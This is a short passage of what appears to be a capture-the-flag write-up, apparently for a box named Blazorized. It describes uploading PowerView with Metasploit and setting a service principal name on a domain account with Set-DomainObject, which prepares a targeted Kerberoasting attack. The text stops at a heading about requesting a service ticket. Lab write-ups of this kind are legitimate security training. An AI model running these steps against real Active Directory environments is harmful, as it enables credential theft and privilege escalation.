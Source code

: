![Image](/assets/img/post/blazorized/32.png)


Upload the PowerView.ps1 with metasploit and execute:

set SPN

```shell
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='test/test'}
```

Request Service Ticket
